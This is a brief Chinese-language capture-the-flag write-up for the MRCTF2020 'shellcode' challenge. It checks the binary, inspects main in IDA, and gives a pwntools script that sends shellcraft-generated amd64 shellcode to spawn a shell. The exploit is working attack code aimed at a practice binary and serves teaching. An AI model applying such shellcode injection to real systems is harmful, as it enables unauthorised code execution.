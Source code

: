 checksec发现是64位程序

![image-20210410170306139](https://static.hack1s.fun/images/2021/04/10/image-20210410170306139.png)

IDA打开看main函数

![image-20210410170325818](https://static.hack1s.fun/images/2021/04/10/image-20210410170325818.png)

就是输入了一个buf直接跳过去了

直接用shellcraft发一个shell过去完事

```python
from pwn import *
io = process('./mrctf2020_shellcode')
payload = asm(shellcraft.amd64.sh(),arch='amd64',os='linux')
io.send(payload)
io.interactive()
```


